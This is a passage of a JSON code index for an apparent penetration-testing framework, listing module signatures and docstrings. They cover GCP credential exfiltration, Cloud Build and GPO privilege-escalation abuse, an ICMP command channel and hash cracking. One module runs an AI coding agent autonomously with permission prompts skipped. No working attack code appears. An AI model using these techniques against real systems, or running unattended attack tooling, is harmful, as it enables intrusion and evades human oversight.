account access tokens, SSH keys, and startup scripts.\n\nReturns:\n    Dict with metadata exfiltration commands.", "kind": "method", "line": 173, "name": "compute_engine_metadata_exfil", "signature": "def compute_engine_metadata_exfil(self)"}, {"doc": "Enumerate Cloud Storage buckets for sensitive data.\n\nMaps accessible buckets, checks permissions, and identifies\nbuckets containing credentials, configs, or backup data.\n\nReturns:\n    Dict with GCS enumeration commands.", "kind": "method", "line": 194, "name": "gcs_enumeration", "signature": "def gcs_enumeration(self)"}, {"doc": "Abuse Cloud Build for privilege escalation.\n\nCloud Build runs with the Cloud Build service account by default.\nModifying the build configuration can execute arbitrary code with\nthe service account's permissions.\n\nReturns:\n    Dict with Cloud Build abuse commands.", "kind": "method", "line": 230, "name": "cloudbuild_abuse", "signature": "def cloudbuild_abuse(self)"}, {"doc": "Escalate from project-level to organization-level access.\n\nIf the attacker has project ownership and the organization policies\nallow, escalate to organization-level privileges.\n\nReturns:\n    Dict with organization escalation paths.", "kind": "method", "line": 261, "name": "organization_escalation", "signature": "def organization_escalation(self)"}, {"kind": "method", "line": 297, "name": "summary", "signature": "def summary(self)"}]}, {"doc": "generate_tools.py", "id": "modules/generate_tools.py", "kind": "module", "label": "generate_tools.py", "language": "py", "sha256": "212f4a014701f51e", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "extract_cmd2_tools", "signature": "def extract_cmd2_tools(script_path)"}]}, {"doc": "Goal decomposition round-0 with constraints and proof.  Ports the LAZY ``agent/goals.go`` + ``agent/constraints.go`` contract: round-0 splits a free-text objective into discrete verifiable goals, records task constraints (allow/deny, highest priority), registers the explicit asset scope, and proves goals from evidence. ``goal_met`` ends the whole task and is opt-in (default unbound, LAZY parity).", "id": "modules/goals.py", "kind": "module", "label": "goals.py", "language": "py", "sha256": "e44d587eab5e6b58", "symbol_count": 13, "symbols": [{"doc": "One decomposed verifiable objective.", "kind": "class", "line": 20, "name": "GoalSpec", "signature": "class GoalSpec"}, {"doc": "Allow/deny constraints with deny-wins semantics (LAZY parity).", "kind": "class", "line": 29, "name": "TaskConstraints", "signature": "class TaskConstraints"}, {"doc": "Split objective text into goal specs without an LLM (deterministic).", "kind": "function", "line": 63, "name": "decompose_rule_based", "signature": "def decompose_rule_based(objective_text, max_goals)"}, {"doc": "Build constraints from payload config (deny wins, LAZY parity).", "kind": "function", "line": 83, "name": "load_constraints", "signature": "def load_constraints(payload)"}, {"doc": "Render the constraint block injected at max priority (LAZY parity).", "kind": "function", "line": 103, "name": "constraint_block_text", "signature": "def constraint_block_text(constraints)"}, {"doc": "Round-0 goals with prove_goal / goal_met semantics.", "kind": "class", "line": 117, "name": "GoalTracker", "signature": "class GoalTracker"}, {"doc": "Return the blocking constraint or empty string.", "kind": "method", "line": 35, "name": "blocked", "signature": "def blocked(self, command)"}, {"doc": "Bind to an initial goal list.", "kind": "method", "line": 120, "name": "__init__", "signature": "def __init__(self, goals)"}, {"doc": "Return a copy of tracked goals.", "kind": "method", "line": 125, "name": "goals", "signature": "def goals(self)"}, {"doc": "Mark one goal achieved from evidence; return True when found.", "kind": "method", "line": 129, "name": "prove_goal", "signature": "def prove_goal(self, goal_text, evidence)"}, {"doc": "End the whole task; requires explicit opt-in (default unbound).", "kind": "method", "line": 140, "name": "goal_met", "signature": "def goal_met(self, opt_in)"}, {"doc": "Return True when every goal is achieved.", "kind": "method", "line": 148, "name": "all_achieved", "signature": "def all_achieved(self)"}, {"doc": "Return goals still open.", "kind": "method", "line": 152, "name": "open_goals", "signature": "def open_goals(self)"}]}, {"doc": "GPO abuse module — Group Policy Object manipulation for AD persistence and privilege escalation.  Exploits Group Policy Objects through multiple vectors: GPO link enumeration, SYSVOL file modification (immediate scheduled tasks), WMI filter abuse, GPO ACL manipulation, and GPO-based software deployment.  GPO modifications propagate to all scoped computers/users — a single compromised GPO can provide domain-wide persistence or privilege escalation.", "id": "modules/gpo_abuse.py", "kind": "module", "label": "gpo_abuse.py", "language": "py", "sha256": "046bfaac2c098637", "symbol_count": 16, "symbols": [{"doc": "Information about a Group Policy Object.\n\nAttributes:\n    display_name: GPO display name.\n    guid: GPO GUID.\n    gpc_path: Group Policy Container path in AD.\n    gpt_path: Group Policy Template path in SYSVOL.\n    linked_ous: List of OUs this GPO is linked to.\n    linked_sites: List of AD sites this GPO applies to.\n    gpo_status: Enabled/Disabled/Enforced.\n    applies_to: Computers or Users (or both).\n    owner: Security principal that owns the GPO.\n    interesting_acls: Non-default ACLs on the GPO.", "kind": "class", "line": 54, "name": "GPOInfo", "signature": "class GPOInfo"}, {"doc": "Exploitation plan for an abusable GPO.\n\nAttributes:\n    gpo_name: Target GPO display name.\n    technique: Abuse technique from GPO_ABUSE_TECHNIQUES.\n    payload_type: Type of payload to inject (command, script, registry, etc.).\n    target_scope: Which computers/users will be affected.\n    trigger_timing: When the GPO change takes effect (reboot, gpupdate, logon).\n    commands: PowerShell/command-line exploitation commands.\n    cleanup_commands: Commands to revert the abuse.", "kind": "class", "line": 83, "name": "GPOAbusePlan", "signature": "class GPOAbusePlan"}, {"doc": "Enumerate and exploit Group Policy Objects for AD compromise.\n\nProvides plans for GPO-based privilege escalation, persistence,\nlateral movement, and code execution across domain-joined hosts.\n\nAttributes:\n    domain: Target domain FQDN.\n    dc_ip: Domain controller IP.\n    gpos: Discovered GPOs.\n    abuse_plans: Generated exploitation plans.", "kind": "class", "line": 105, "name": "GPOAbuseEngine", "signature": "class GPOAbuseEngine"}, {"kind": "method", "line": 118, "name": "__init__", "signature": "def __init__(self, domain, dc_ip)"}, {"doc": "Parse Get-GPO or ldapsearch output for GPO information.\n\nArgs:\n    raw_gpo_output: Text output from GPO enumeration tools.\n\nReturns:\n    List of parsed GPOInfo objects.", "kind": "method", "line": 124, "name": "parse_gpo_list", "signature": "def parse_gpo_list(self, raw_gpo_output)"}, {"doc": "Parse BloodHound GPO nodes for abusable policies.\n\nArgs:\n    bloodhound_nodes: List of BloodHound GPO node dicts.\n\nReturns:\n    List of GPOInfo objects.", "kind": "method", "line": 160, "name": "parse_bloodhound_gpos", "signature": "def parse_bloodhound_gpos(self, bloodhound_nodes)"}, {"doc": "Plan a GPO-backed scheduled task for immediate code execution.\n\nArgs:\n    gpo: Target GPO.\n    command: Command to execute on target machines.\n    task_name: Task name in Task Scheduler.\n\nReturns:\n    GPOAbusePlan with scheduled task deployment instructions.", "kind": "method", "line": 182, "name": "plan_scheduled_task", "signature": "def plan_scheduled_task(self, gpo, command, task_name)"}, {"doc": "Plan a GPO startup script for persistence via SYSVOL.\n\nArgs:\n    gpo: Target GPO.\n    script_content: PowerShell script content to deploy.\n    script_name: Script filename in SYSVOL.\n\nReturns:\n    GPOAbusePlan with startup script deployment.", "kind": "method", "line": 208, "name": "plan_startup_script", "signature": "def plan_startup_script(self, gpo, script_content, script_name)"}, {"doc": "Plan a GPO user logon script for user-triggered code execution.\n\nArgs:\n    gpo: Target GPO.\n    command: Command to execute on user logon.\n\nReturns:\n    GPOAbusePlan with logon script configuration.", "kind": "method", "line": 238, "name": "plan_logon_script", "signature": "def plan_logon_script(self, gpo, command)"}, {"doc": "Plan adding a user to the local Administrators group via GPO preferences.\n\nArgs:\n    gpo: Target GPO.\n    username: Username to add.\n    group: Local group to add to (default: Administrators).\n\nReturns:\n    GPOAbusePlan with local group modification.", "kind": "method", "line": 266, "name": "plan_local_admin_addition", "signature": "def plan_local_admin_addition(self, gpo, username, group)"}, {"doc": "Plan WMI filter abuse for targeted GPO scope control.\n\nAbusive WMI filters can scope a GPO to specific hosts dynamically.\n\nArgs:\n    gpo: Target GPO.\n    wmi_query: WQL query for host targeting.\n\nReturns:\n    GPOAbusePlan with WMI filter configuration.", "kind": "method", "line": 293, "name": "plan_wmi_filter_abuse", "signature": "def plan_wmi_filter_abuse(self, gpo, wmi_query)"}, {"doc": "Plan a registry modification via GPO preferences.\n\nCan enable RDP, disable firewall, add autorun entries, etc.\n\nArgs:\n    gpo: Target GPO.\n    registry_path: Full registry key path.\n    value_name: Value name to set.\n    value_data: Value data.\n    value_type: Registry value type.\n\nReturns:\n    GPOAbusePlan with registry preference commands.", "kind": "method", "line": 322, "name": "plan_registry_preference", "signature": "def plan_registry_preference(self, gpo, registry_path, value_name, value_data, value_type)"}, {"doc": "Plan a service installation via GPO for SYSTEM-level persistence.\n\nArgs:\n    gpo: Target GPO.\n    service_name: Display name for the service.\n    binary_path: Path to the service binary.\n\nReturns:\n    GPOAbusePlan with service installation commands.", "kind": "method", "line": 356, "name": "plan_service_installation", "signature": "def plan_service_installation(self, gpo, service_name, binary_path)"}, {"doc": "Generate all abuse plans for the discovered GPOs.\n\nArgs:\n    command: Payload command to execute.\n    username: Attacker username for local admin addition.\n\nReturns:\n    List of GPOAbusePlan for all GPOs and techniques.", "kind": "method", "line": 382, "name": "generate_all_plans", "signature": "def generate_all_plans(self, command, username)"}, {"doc": "Identify GPOs with risky configurations for post-compromise cleanup.\n\nScans for startup scripts, scheduled tasks, software installs,\nand other GPO settings that might indicate adversary persistence.\n\nReturns:\n    List of risky GPO findings.", "kind": "method", "line": 406, "name": "detect_risky_gpos", "signature": "def detect_risky_gpos(self)"}, {"doc": "Return a summary of GPO abuse capabilities.\n\nReturns:\n    Dict with GPO count, techniques, and abuse plans.", "kind": "method", "line": 434, "name": "summary", "signature": "def summary(self)"}]}, {"doc": "gui_askpass.sh — SUDO_ASKPASS helper for LazyOwn MCP  Used by: sudo -A <script>  (set SUDO_ASKPASS to this file's path)  Tries GUI backends in order of preference. Outputs the password to stdout (as required by SUDO_ASKPASS protocol). On cancel / error: exits non-zero so sudo aborts cleanly.  Backend priority: 1. zenity        (GTK, GNOME) 2. yad           (GTK, modern) 3. ssh-askpass   (any X11) 4. kdialog       (KDE/Qt) 5. xterm -e read (fallback — last resort X11)", "id": "modules/gui_askpass.sh", "kind": "module", "label": "gui_askpass.sh", "language": "sh", "sha256": "41f330e2517a0d4e", "symbol_count": 5, "symbols": [{"doc": "── helpers ───────────────────────────────────────────────────────────────────", "kind": "function", "line": 22, "name": "has"}, {"kind": "function", "line": 24, "name": "try_zenity"}, {"kind": "function", "line": 28, "name": "try_yad"}, {"kind": "function", "line": 33, "name": "try_ssh_askpass"}, {"kind": "function", "line": 40, "name": "try_kdialog"}]}, {"doc": "Hash cracking pipeline — John the Ripper and Hashcat integration.  Parses hash formats from secretsdump output, identifies hash types, and runs the appropriate cracker. Results feed back into the LazyOwnDB credentials table.  Design (SOLID): - Single Responsibility: HashCracker only cracks hashes. - Open/Closed: new hash formats added via HASH_FORMATS dict. - Liskov: any cracker (John, Hashcat) implements CrackBackend protocol. - Interface Segregation: identify(), crack(), and import_results(). - Dependency Inversion: depends on abstract backend, not concrete binary.  Usage: from modules.hash_cracker import HashCracker  cracker = HashCracker(wordlist=\"/usr/share/wordlists/rockyou.txt\") results = cracker.crack_file(\"sessions/hashes_10.10.11.5.txt\") cracker.import_to_db(results, rhost=\"10.10.11.5\")", "id": "modules/hash_cracker.py", "kind": "module", "label": "hash_cracker.py", "language": "py", "sha256": "c84168db7680af05", "symbol_count": 17, "symbols": [{"kind": "class", "line": 127, "name": "CrackResult", "signature": "class CrackResult"}, {"kind": "class", "line": 140, "name": "HashIdentifier", "signature": "class HashIdentifier"}, {"doc": "Pipeline for identifying and cracking password hashes.\n\nSupports John the Ripper and Hashcat backends. Automatically selects\nthe best available cracker per hash format.\n\nAttributes:\n    wordlist: Path to wordlist file for dictionary attacks.\n    rules: John rules to apply (default: ``--rules=best64``).\n    use_hashcat: Prefer Hashcat over John when available.\n    timeout: Max cracking time in seconds per format group.", "kind": "class", "line": 151, "name": "HashCracker", "signature": "class HashCracker"}, {"doc": "Convenience function: crack a secretsdump output file and import results.\n\nArgs:\n    filepath: Path to secretsdump output with hashes.\n    wordlist: Override wordlist path.\n    rhost: Target IP for DB import.\n\nReturns:\n    List of CrackResult.", "kind": "function", "line": 695, "name": "crack_secretsdump_output", "signature": "def crack_secretsdump_output(filepath, wordlist, rhost)"}, {"kind": "method", "line": 164, "name": "__init__", "signature": "def __init__(self, wordlist, rules, use_hashcat, timeout)"}, {"kind": "method", "line": 178, "name": "_resolve_wordlist", "signature": "def _resolve_wordlist(self)"}, {"doc": "Identify the hash type of a single line.\n\nArgs:\n    line: A hash string (with or without username prefix).\n\nReturns:\n    HashIdentifier if recognized, None otherwise.", "kind": "method", "line": 186, "name": "identify", "signature": "def identify(self, line)"}, {"doc": "Parse a hash file and group hashes by type.\n\nArgs:\n    filepath: Path to file containing hashes (e.g. secretsdump output).\n\nReturns:\n    Dict mapping hash_type -> list of HashIdentifier.", "kind": "method", "line": 273, "name": "identify_file", "signature": "def identify_file(self, filepath)"}, {"doc": "Attempt to crack a single hash.\n\nArgs:\n    hash_value: The hash string to crack.\n    hash_type: Known hash type (auto-detected if None).\n    wordlist: Override wordlist path.\n\nReturns:\n    CrackResult with cracked password if successful.", "kind": "method", "line": 295, "name": "crack_hash", "signature": "def crack_hash(self, hash_value, hash_type, wordlist)"}, {"doc": "Crack all hashes in a file.\n\nArgs:\n    filepath: Path to file containing hashes.\n    wordlist: Override wordlist path.\n    hash_types: Filter to only crack specific hash types.\n\nReturns:\n    List of CrackResult with cracked passwords.", "kind": "method", "line": 349, "name": "crack_file", "signature": "def crack_file(self, filepath, wordlist, hash_types)"}, {"doc": "Import cracked results into the LazyOwnDB credentials table.\n\nArgs:\n    results: Crack results from crack_file().\n    rhost: Target IP for associating credentials.\n    workspace_name: DB workspace to use.\n\nReturns:\n    Number of credentials imported.", "kind": "method", "line": 405, "name": "import_to_db", "signature": "def import_to_db(self, results, rhost, workspace_name)"}, {"kind": "method", "line": 454, "name": "_crack_hashcat", "signature": "def _crack_hashcat(self, hash_value, hash_type, fmt_info, wordlist)"}, {"kind": "method", "line": 500, "name": "_crack_batch_hashcat", "signature": "def _crack_batch_hashcat(self, idents, hash_type, fmt_info, wordlist)"}, {"kind": "method", "line": 560, "name": "_crack_john", "signature": "def _crack_john(self, hash_value, hash_type, fmt_info, wordlist)"}, {"kind": "method", "line": 610, "name": "_crack_batch_john", "signature": "def _crack_batch_john(self, idents, hash_type, fmt_info, wordlist)"}, {"kind": "method", "line": 671, "name": "_parse_hashcat_output", "signature": "def _parse_hashcat_output(stdout, stderr, original)"}, {"kind": "method", "line": 686, "name": "_parse_john_show", "signature": "def _parse_john_show(show_output, original)"}]}, {"doc": "modules/hive_invoke.py ======================= Invokes Claude Code CLI with the LazyOwn MCP server and forwards an operator prompt for autonomous or hive-mind execution.  Claude Code will have access to the lazyown MCP server (configured in ~/.claude.json) and will use its tools to fulfil the request.  Usage (via hive addon) ---------------------- hive enumerate all SMB shares on 10.10.11.78 hive spawn 3 drones to perform AD enumeration hive start autonomous mode targeting 10.10.11.78 hive what hosts and credentials have been captured so far hive -i enumerate Active Directory on 10.10.11.78  (interactive mode)  Usage (direct) -------------- python3 modules/hive_invoke.py [OPTIONS] <prompt words ...>  Options ------- -i, --interactive     Open Claude Code in interactive REPL mode so the operator can follow up after the initial response. Default: non-interactive print mode (-p). -e, --effort LEVEL    Effort level passed to Claude: low | medium | high | max Default: high. -h, --help            Show this help message and exit.", "id": "modules/hive_invoke.py", "kind": "module", "label": "hive_invoke.py", "language": "py", "sha256": "e0a2b294617cc2b0", "symbol_count": 7, "symbols": [{"kind": "function", "line": 50, "name": "_get_toposwarm", "signature": "def _get_toposwarm()"}, {"doc": "Return the absolute path to the claude binary, or None if not found.", "kind": "function", "line": 115, "name": "_find_claude", "signature": "def _find_claude()"}, {"doc": "Parse argv into (interactive, effort, prompt_words).\n\nReturns\n-------\ninteractive : bool   — True when -i/--interactive is present\neffort      : str    — effort level string (default \"high\")\nprompt_words: list   — remaining words that form the prompt", "kind": "function", "line": 120, "name": "_parse_argv", "signature": "def _parse_argv(argv)"}, {"doc": "Run Claude Code in non-interactive print mode (-p).\nOutput streams directly to the terminal.\nPermissions are skipped so tool calls execute without prompts.", "kind": "function", "line": 150, "name": "_run_print_mode", "signature": "def _run_print_mode(prompt, effort, claude_bin)"}, {"doc": "Start Claude Code in interactive REPL mode with the prompt pre-loaded as\nthe first message.  The operator can follow up with additional questions.", "kind": "function", "line": 172, "name": "_run_interactive_mode", "signature": "def _run_interactive_mode(prompt, effort, claude_bin)"}, {"doc": "Autonomous loop powered by TopoSwarm when Claude Code is unavailable.\n\nRuns the prompt through the TopoSwarm orchestrator, which:\n1. Routes NL → LazyOwn tool (neural model or keyword matching)\n2. Executes the tool via the LazyOwn PTY bridge\n3. Returns the result\n\nFor simple routing tasks this is one shot; for agentic goals (effort=high)\nit loops up to 5 iterations, feeding each output back as context.", "kind": "function", "line": 205, "name": "_run_toposwarm_mode", "signature": "def _run_toposwarm_mode(prompt, effort, bridge)"}, {"kind": "function", "line": 255, "name": "main", "signature": "def main(argv)"}]}, {"id": "modules/hostdiscover.sh", "kind": "module", "label": "hostdiscover.sh", "language": "sh", "sha256": "dce934d6cec272f7", "symbol_count": 2, "symbols": [{"kind": "function", "line": 21, "name": "extract_ips_from_arp"}, {"kind": "function", "line": 26, "name": "extract_listening_ips_from_netstat"}]}, {"id": "modules/ia_code_analysis.py", "kind": "module", "label": "ia_code_analysis.py", "language": "py", "sha256": "474005b92083e508", "symbol_count": 8, "symbols": [{"doc": "Analyzes source code in a directory and its subdirectories.", "kind": "class", "line": 28, "name": "CodeAnalyzer", "signature": "class CodeAnalyzer"}, {"doc": "Sends the code content to DeepSeek for analysis.\nDevuelve la respuesta del modelo en fragmentos.", "kind": "function", "line": 66, "name": "analyze_with_deepseek", "signature": "def analyze_with_deepseek(code_content, file_path, mode)"}, {"doc": "Saves the analysis results to JSON files.", "kind": "function", "line": 123, "name": "save_results_to_json", "signature": "def save_results_to_json(results, file_path)"}, {"doc": "Starts the analysis of the specified code directory.", "kind": "function", "line": 169, "name": "start_analysis", "signature": "def start_analysis(code_dir, mode)"}, {"kind": "function", "line": 178, "name": "parse_args", "signature": "def parse_args()"}, {"kind": "method", "line": 33, "name": "__init__", "signature": "def __init__(self, mode)"}, {"doc": "Recursively analyzes all source code files in the specified directory.", "kind": "method", "line": 37, "name": "analyze_directory", "signature": "def analyze_directory(self, directory)"}, {"doc": "Analyzes the content of the source code file.", "kind": "method", "line": 49, "name": "analyze_code_file", "signature": "def analyze_code_file(self, file_path)"}]}, {"doc": "log_monitor_bot.py  Author: Your Name Email: youremail@example.com Creation Date: 10/06/2024 License: GPL v3  Description: Real-time log monitoring bot for Linux systems. Monitors logs in /var/log (e.g., SSH, Apache2, Nginx) and uses DeepSeek to detect suspicious activity.", "id": "modules/ia_logs_analysis.py", "kind": "module", "label": "ia_logs_analysis.py", "language": "py", "sha256": "e98fc1a8dea6527d", "symbol_count": 7, "symbols": [{"doc": "Handles file system events for log files.", "kind": "class", "line": 54, "name": "LogFileHandler", "signature": "class LogFileHandler(FileSystemEventHandler)"}, {"doc": "Sends log content to DeepSeek for advanced analysis.\nReturns the model's response in chunks.", "kind": "function", "line": 94, "name": "analyze_with_deepseek", "signature": "def analyze_with_deepseek(log_content, mode)"}, {"doc": "Starts monitoring the specified log directory.", "kind": "function", "line": 147, "name": "start_monitoring", "signature": "def start_monitoring(log_dir, mode)"}, {"kind": "function", "line": 168, "name": "parse_args", "signature": "def parse_args()"}, {"kind": "method", "line": 59, "name": "__init__", "signature": "def __init__(self, mode)"}, {"doc": "Triggered when a log file is modified.", "kind": "method", "line": 64, "name": "on_modified", "signature": "def on_modified(self, event)"}, {"doc": "Analyzes the content of the modified log file.", "kind": "method", "line": 75, "name": "analyze_log_file", "signature": "def analyze_log_file(self, file_path)"}]}, {"doc": "ia_network_analysis.py  Autor: grisun0 Fecha de creación: 30/01/2025 Licencia: GPL v3  Descripción: Bot de monitoreo de tráfico de red en tiempo real. Informa todo el tráfico (IPs, puertos, protocolos) y usa DeepSeek para detectar actividad sospechosa.", "id": "modules/ia_network_analysis.py", "kind": "module", "label": "ia_network_analysis.py", "language": "py", "sha256": "98e37775e2e48c13", "symbol_count": 4, "symbols": [{"doc": "Envía la información del paquete a DeepSeek para análisis avanzado.\nDevuelve la respuesta del modelo en chunks.", "kind": "function", "line": 39, "name": "analyze_with_deepseek", "signature": "def analyze_with_deepseek(packet_info, mode)"}, {"doc": "Callback para procesar cada paquete capturado.", "kind": "function", "line": 91, "name": "packet_callback", "signature": "def packet_callback(packet, mode)"}, {"doc": "Inicia el monitoreo del tráfico de red.", "kind": "function", "line": 130, "name": "start_monitoring", "signature": "def start_monitoring(interface, timeout, mode)"}, {"kind": "function", "line": 154, "name": "parse_args", "signature": "def parse_args()"}]}, {"id": "modules/icmp_client.py", "kind": "module", "label": "icmp_client.py", "language": "py", "sha256": "811ef1c341eefa29", "symbol_count": 7, "symbols": [{"doc": "Encrypt bytes with AES-256-GCM returning ``nonce || ciphertext || tag``.\n\nArgs:\n    data: Plaintext bytes to encrypt.\n    key: 32-byte AES-256 key.\n\nReturns:\n    Concatenated nonce, ciphertext and authentication tag.", "kind": "function", "line": 18, "name": "encrypt_data", "signature": "def encrypt_data(data, key)"}, {"doc": "Decrypt bytes produced by ``encrypt_data`` after authenticating them.\n\nArgs:\n    data: ``nonce || ciphertext || tag`` payload.\n    key: 32-byte AES-256 key.\n\nReturns:\n    Decrypted plaintext bytes.\n\nRaises:\n    ValueError: If the payload is malformed or the tag fails to verify.", "kind": "function", "line": 34, "name": "decrypt_data", "signature": "def decrypt_data(data, key)"}, {"kind": "function", "line": 57, "name": "check_sudo", "signature": "def check_sudo()"}, {"kind": "function", "line": 64, "name": "checksum", "signature": "def checksum(source_string)"}, {"kind": "function", "line": 82, "name": "send_icmp_packet", "signature": "def send_icmp_packet(dest_addr, data, key)"}, {"kind": "function", "line": 117, "name": "receive_icmp_reply", "signature": "def receive_icmp_reply(sock)"}, {"kind": "function", "line": 130, "name": "main", "signature": "def main()"}]}, {"id": "modules/icmp_server.py", "kind": "module", "label": "icmp_server.py", "language": "py", "sha256": "d92a28b5f5bf2840", "symbol_count": 9, "symbols": [{"kind": "function", "line": 44, "name": "check_sudo", "signature": "def check_sudo()"}, {"doc": "Encrypt bytes with AES-256-GCM returning ``nonce || ciphertext || tag``.\n\nArgs:\n    data: Plaintext bytes to encrypt.\n    key: 32-byte AES-256 key.\n\nReturns:\n    Concatenated nonce, ciphertext and authentication tag.", "kind": "function", "line": 55, "name": "encrypt_data", "signature": "def encrypt_data(data, key)"}, {"doc": "Decrypt bytes produced by ``encrypt_data`` after authenticating them.\n\nArgs:\n    data: ``nonce || ciphertext || tag`` payload.\n    key: 32-byte AES-256 key.\n\nReturns:\n    Decrypted plaintext bytes.\n\nRaises:\n    ValueError: If the payload is malformed or the tag fails to verify.", "kind": "function", "line": 71, "name": "decrypt_data", "signature": "def decrypt_data(data, key)"}, {"kind": "function", "line": 93, "name": "execute_command", "signature": "def execute_command(command)"}, {"kind": "function", "line": 112, "name": "send_icmp_reply", "signature": "def send_icmp_reply(sock, addr, data, key)"}, {"kind": "function", "line": 132, "name": "checksum", "signature": "def checksum(source_string)"}, {"kind": "function", "line": 150, "name": "handle_packet", "signature": "def handle_packet(packet, addr, key, sock)"}, {"kind": "function", "line": 175, "name": "listen_for_icmp", "signature": "def listen_for_icmp(interface, key)"}, {"kind": "function", "line": 202, "name": "main", "signature": "def main()"}]}, {"id": "modules/img2bin.py", "kind": "module", "label": "img2bin.py", "language": "py", "sha256": "1101c9f0204131b5", "symbol_count": 2, "symbols": [{"kind": "function", "line": 7, "name": "imagen_a_binario", "signature": "def imagen_a_binario(imagen_input, binario_output, block_size)"}, {"kind": "function", "line": 43, "name": "main", "signature": "def main()"}]}, {"doc": "LazyOwn integrations — bridges to external platforms and tools.  Public API ---------- - :class:`MISPIntegration` — export findings to MISP via REST API - :class:`NucleiBridge` — translate target context into Nuclei scans - :class:`SearchsploitBridge` — query ExploitDB for matching exploits", "id": "modules/integrations/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "bc5ee8ad4cf4d400", "symbol_count": 0, "symbols": []}, {"doc": "modules/integrations/misp_export.py ===================================== Exports LazyOwn session findings as MISP-compatible events (JSON format).  Design (SOLID) -------------- - Single Responsibility : each FindingMapper handles exactly one FindingType - Open/Closed           : new types via new FindingMapper subclass, no edits needed - Liskov                : all mappers honour Optional[MISPAttribute] return contract - Interface Segregation : consumers see only FindingMapper; exporter is separate - Dependency Inversion  : MISPExporter depends on FindingMapper abstraction  Usage ----- from modules.integrations.misp_export import get_exporter  exporter = get_exporter() event = exporter.export_session(\"sessions/\") path  = exporter.save(event, \"sessions/misp_event.json\")  # CLI: python3 modules/integrations/misp_export.py --output sessions/misp_event.json python3 modules/integrations/misp_export.py --output sessions/misp_event.json \\\\ --misp-url https://misp.example.com --misp-key <API_KEY>", "id": "modules/integrations/misp_export.py", "kind": "module", "label": "misp_export.py", "language": "py", "sha256": "4ffa065a720709dd", "symbol_count": 38, "symbols": [{"doc": "A single MISP attribute inside an event.", "kind": "class", "line": 59, "name": "MISPAttribute", "signature": "class MISPAttribute"}, {"doc": "A complete MISP event ready for JSON serialisation or API push.", "kind": "class", "line": 70, "name": "MISPEvent", "signature": "class MISPEvent"}, {"doc": "Maps a single Finding to a MISPAttribute (or None when not applicable).", "kind": "class", "line": 86, "name": "FindingMapper", "signature": "class FindingMapper(ABC)"}, {"doc": "Maps IP findings to MISP ip-dst attributes.", "kind": "class", "line": 103, "name": "IPMapper", "signature": "class IPMapper(FindingMapper)"}, {"doc": "Maps credential findings to MISP text attributes.", "kind": "class", "line": 123, "name": "CredentialMapper", "signature": "class CredentialMapper(FindingMapper)"}, {"doc": "Maps CVE findings to MISP vulnerability attributes.", "kind": "class", "line": 143, "name": "CVEMapper", "signature": "class CVEMapper(FindingMapper)"}, {"doc": "Maps domain findings to MISP domain attributes.", "kind": "class", "line": 163, "name": "DomainMapper", "signature": "class DomainMapper(FindingMapper)"}, {"doc": "Maps hash findings to MISP md5 or sha256 attributes.\n\nAuto-detects hash type by length:\n  32 chars -> md5\n  64 chars -> sha256", "kind": "class", "line": 183, "name": "HashMapper", "signature": "class HashMapper(FindingMapper)"}, {"doc": "Maps service_version findings to MISP text attributes.", "kind": "class", "line": 218, "name": "ServiceMapper", "signature": "class ServiceMapper(FindingMapper)"}, {"doc": "Reads LazyOwn session artefacts and produces a MISPEvent.\n\nParameters\n----------\nmappers : list of FindingMapper instances (injected for testability)", "kind": "class", "line": 254, "name": "MISPExporter", "signature": "class MISPExporter"}, {"doc": "Lightweight wrapper to give dict-based findings the .type / .value interface.", "kind": "class", "line": 451, "name": "_DictFinding", "signature": "class _DictFinding"}, {"doc": "Return the module-level MISPExporter singleton.", "kind": "function", "line": 469, "name": "get_exporter", "signature": "def get_exporter()"}, {"kind": "function", "line": 482, "name": "_main", "signature": "def _main()"}, {"doc": "Convert *finding* to a MISPAttribute.\n\nReturns None if the finding is not relevant to this mapper.", "kind": "method", "line": 90, "name": "map", "signature": "def map(self, finding)"}, {"kind": "method", "line": 106, "name": "map", "signature": "def map(self, finding)"}, {"kind": "method", "line": 118, "name": "_is_ip", "signature": "def _is_ip(finding)"}, {"kind": "method", "line": 126, "name": "map", "signature": "def map(self, finding)"}, {"kind": "method", "line": 138, "name": "_is_credential", "signature": "def _is_credential(finding)"}, {"kind": "method", "line": 146, "name": "map", "signature": "def map(self, finding)"}, {"kind": "method", "line": 158, "name": "_is_cve", "signature": "def _is_cve(finding)"}, {"kind": "method", "line": 166, "name": "map", "signature": "def map(self, finding)"}, {"kind": "method", "line": 178, "name": "_is_domain", "signature": "def _is_domain(finding)"}, {"kind": "method", "line": 192, "name": "map", "signature": "def map(self, finding)"}, {"kind": "method", "line": 206, "name": "_is_hash", "signature": "def _is_hash(finding)"}, {"kind": "method", "line": 211, "name": "_detect_type", "signature": "def _detect_type(value)"}, {"kind": "method", "line": 221, "name": "map", "signature": "def map(self, finding)"}, {"kind": "method", "line": 233, "name": "_is_service", "signature": "def _is_service(finding)"}, {"kind": "method", "line": 263, "name": "__init__", "signature": "def __init__(self, mappers)"}, {"doc": "Read policy_facts.json and events.jsonl from *sessions_dir*,\nmap all findings, and return a populated MISPEvent.", "kind": "method", "line": 268, "name": "export_session", "signature": "def export_session(self, sessions_dir, target)"}, {"doc": "Serialise *event* to a MISP-compatible JSON string.", "kind": "method", "line": 299, "name": "to_json", "signature": "def to_json(self, event)"}, {"doc": "Write the MISP event JSON to *path* and return the resolved path.", "kind": "method", "line": 322, "name": "save", "signature": "def save(self, event, path)"}, {"doc": "HTTP-push the event to a live MISP instance.\n\nReturns False gracefully if requests is not available or the push fails.", "kind": "method", "line": 330, "name": "push_to_misp", "signature": "def push_to_misp(self, event, url, api_key)"}, {"doc": "Load findings from policy_facts.json and events.jsonl.", "kind": "method", "line": 365, "name": "_load_findings", "signature": "def _load_findings(self, sdir)"}, {"kind": "method", "line": 372, "name": "_load_policy_facts", "signature": "def _load_policy_facts(self, sdir)"}, {"kind": "method", "line": 383, "name": "_load_events", "signature": "def _load_events(self, sdir)"}, {"doc": "Convert raw dict/list data into lightweight finding-like objects.", "kind": "method", "line": 403, "name": "_dict_to_findings", "signature": "def _dict_to_findings(data)"}, {"kind": "method", "line": 443, "name": "_map_finding", "signature": "def _map_finding(self, finding)"}, {"kind": "method", "line": 454, "name": "__init__", "signature": "def __init__(self, data)"}]}, {"doc": "modules/integrations/nuclei_bridge.py ======================================= Selects and runs Nuclei templates based on discovered services and CVEs from WorldModel/ObsParser.  Design (SOLID) -------------- - Single Responsibility : LocalTemplateIndex indexes templates; NucleiRunner executes - Open/Closed           : new selectors via TemplateSelector subclass - Liskov                : any TemplateSelector can replace LocalTemplateIndex - Interface Segregation : NucleiRunner depends on 